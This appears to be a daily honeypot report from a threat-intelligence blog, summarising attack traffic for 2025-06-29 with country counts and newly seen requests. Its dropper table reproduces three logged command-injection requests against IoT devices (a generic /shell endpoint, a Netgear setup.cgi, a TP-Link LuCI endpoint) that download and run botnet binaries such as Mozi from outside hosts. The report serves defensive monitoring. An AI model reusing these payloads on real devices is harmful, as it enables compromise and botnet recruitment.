 ```yaml
---
title: "Report: 2025-06-29 "
date: 2025-06-29
desciption: "Report: 2025-06-29" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-29 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 12 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1958 requests were recorded during the day, originating from 3 different countries, with a peak of 1268 requests coming from RU.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| NL               | Israel             |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.83  | GET /shell?rm arm7;wget http://141.98.11.83/m/arm7;chmod 777 arm7;./arm7 arm7 HTTP/1.1                                                                                       |
| 103.77.43.111 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.77.43.111:46177/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://220.158.232.99/x/tplink+-O-|sh) HTTP/1.1                                                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
| 668 |                     1 | \x00\x0E8\x22ws\xA0\xB6\x19?\xEB\x00\x00\x00\x00\x00    |
| 680 |                     1 | \x00\x0E89\x83D\xAD*\xAB\xD17\x00\x00\x00\x00\x00       |
| 685 |                     1 | \x04\x01\x00P\xC4\xFBEt\x00                             |
| 686 |                     1 | CONNECT 196.251.69.116:80 HTTP/1.0                      |
| 709 |                     1 | \x00\x0E\x08\x85lk2\x86\x02\xF4\xF5\x00\x00\x00\x00\x00 |
| 710 |                     1 | \x00\x0E8\x85lk2\x86\x02\xF4\xF5\x00\x00\x00\x00\x00    |
| 726 |                     1 | \x00\x0E8^k.\xDE\xE7&*;\x00\x00\x00\x00\x00             |
| 736 |                     1 | \x00\x0E8\xB2R\xA4\x01h\xAD3K\x00\x00\x00\x00\x00       |
| 738 |                     1 | \x00\x0E\x08\xD1=1b\xF6\xB5\xDD\xDB\x00\x00\x00\x00\x00 |
| 739 |                     1 | \x00\x0E8\xD1=1b\xF6\xB5\xDD\xDB\x00\x00\x00\x00\x00    |
| 742 |                     1 | \x00\x0E\x08\x1Di`a\xFD\xC2\xE9^\x00\x00\x00\x00\x00    |
| 743 |                     1 | \x00\x0E8\x1Di`a\xFD\xC2\xE9^\x00\x00\x00\x00\x00       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  1268 | RU                 |
|  1 |                   297 | US                 |
|  2 |                    60 | NL                 |
|  3 |                    47 | BG                 |
|  4 |                    34 | JP                 |
|  5 |                    31 | SG                 |
|  6 |                    22 | SC                 |
|  7 |                    20 | AO                 |
|  8 |                    19 | LT                 |
|  9 |                    19 | DE                 |
| 10 |                    16 | IN                 |
| 11 |                    14 | GB                 |
| 12 |                    14 | CN                 |
| 13 |                    12 | CA                 |
| 14 |                     9 | ZA                 |
| 15 |                     9 | CH                 |
| 16 |                     8 | GH                 |
| 17 |                     8 | FR                 |
| 18 |                     7 | BR                 |
| 19 |                     7 | PL                 |
| 20 |                     6 | BE                 |
| 21 |                     6 | IL                 |
| 22 |                     5 | TR                 |
| 23 |                     4 | UA                 |
| 24 |                     3 | KZ                 |
| 25 |                     3 | NG                 |
| 26 |                     2 | MD                 |
| 27 |                     2 | VN                 |
| 28 |                     2 | IE                 |
| 29 |                     1 | HK                 |
| 30 |                     1 | ES                 |
| 31 |                     1 | KR                 |
| 32 |                     1 | CZ                 |
